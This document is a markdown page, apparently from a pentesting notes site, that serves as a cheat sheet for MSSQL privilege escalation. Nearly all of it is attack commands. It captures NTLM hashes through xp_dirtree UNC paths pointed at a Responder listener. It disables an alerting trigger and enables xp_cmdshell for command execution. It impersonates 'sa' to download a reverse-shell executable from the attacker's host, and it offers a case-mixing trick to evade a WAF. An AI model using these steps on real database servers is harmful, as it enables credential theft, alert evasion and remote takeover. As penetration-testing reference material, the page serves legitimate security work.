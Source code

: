 ```yaml
---
title: "MSSQL Privilege Escalation"
date: 2024-6-27
tags: ["Hash Cracking", "Database Dumping", "Privilege Escalation In Databases", "Ntlm", "Mssql", "Database", "Windows", "RCE"]
---
```


### Abuse #1: Steal NTLM hash

```console
# In our local Linux machine
sudo responder -I tun0
```

{{< tab set1 tab1 active >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tab set1 tab3 >}}Method 3{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
xp_dirtree '\\<LOCAL_IP>\any\thing';
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
use master; exec xp_dirtree '\\<LOCAL_IP>\any\thing';
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
load_file('\\<LOCAL_IP>\any\thing');
```

{{< /tabcontent >}}

### Abuse #2: Run xp_cmdshell

```console
# Check any policy blocking xp_cmdshell
select name from sys.server_triggers;
```

```console
# Disable trigger if any
disable trigger ALERT_xp_cmdshell on all server;
```

```console
# Enable xp_cmdshell
enable_xp_cmdshell;
```

```console
# RCE
xp_cmdshell whoami
```

### Abuse #3: Impersonate sa to run xp_cmdshell

```console
execute as login = 'sa'; exec sp_configure 'show advanced options', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; exec sp_configure 'xp_cmdshell', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; EXEC master..xp_cmdshell 'powershell.exe -ep bypass curl <LOCAL_IP>/rev.exe -o C:\ProgramData\rev.exe'
```

<small>*Note: try xp_cmDshElL to bypass WAF*</small>

### Abuse #4: Run External Script

```console
EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
```
